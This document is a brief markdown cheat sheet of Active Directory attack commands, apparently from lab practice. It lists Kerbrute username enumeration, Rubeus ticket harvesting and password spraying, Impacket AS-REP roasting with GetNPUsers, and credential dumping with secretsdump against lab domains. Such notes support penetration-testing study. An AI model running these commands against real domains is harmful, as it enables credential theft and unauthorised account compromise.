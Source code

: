 ## Kerbrute
- Download from [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
```bash
# Bruteforce Usernames
./kerbrute_linux_386 userenum --dc 10.10.74.225 -d spookysec.local userlist.txt 
```

## Rubeus
Download: [[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)]([https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus))
```powershell
Rubeus.exe harvest /interval:30

# Add domain name to host file
echo 10.10.24.25 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
# Password Spray
Rubeus.exe brute /password:Password1 /noticket

```

# Impacket
## GetNPUsers.py
This tool (part of impacket) can be used to ASREPRoast
```
python3 ./GetNPUsers.py spookysec.local/ -dc-ip 10.10.74.225 -usersfile ~/Downloads/foundusers.txt
```

## Secretsdump.py
```
python3 secretsdump.py domain\username:password@10.10.250.74
```

